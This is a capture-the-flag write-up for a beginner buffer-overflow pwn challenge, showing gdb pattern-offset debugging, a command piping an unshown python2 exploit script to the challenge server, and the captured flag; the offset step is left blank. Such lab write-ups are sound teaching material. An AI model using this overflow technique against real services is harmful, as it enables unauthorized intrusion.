

# BOF (Pwn, 160 solved, 50 points)
###### Author: [qrzcn](https://github.com/qrzcn)

```
Binary is running at
nc 139.59.30.165 8700
```
The Challange involved a binary so first run the binary locally: 

```
% ./vuln     
Welcome, You know what to do. So go get the flag.

Hello
>>> 213123
```

Then I generated a pattern with 100 length:

https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/

Now run it in gdb:  

```
$ gdb ./vuln 
$ b *0x400823 
$ c Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Breakpoint 2, 0x0000000000400823 in main ()
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffe810:
 rip = 0x400823 in main; saved rip = 0x3562413462413362
 called by frame at 0x7fffffffe818
 Arglist at 0x7fffffffe800, args: 
 Locals at 0x7fffffffe800, Previous frame's sp is 0x7fffffffe810
 Saved registers:
  rbp at 0x7fffffffe800, rip at 0x7fffffffe808
```
Now we can calculate the Offset:




Now we know the Offset to the saved return pointer and can use that for our exploit: 

```python
% python2 test.py| nc 139.59.30.165 8700
```

And we get the flag: 

```
d4rk{g00d_0ld_d4y5_0f_n0_pr073c710n}c0de
```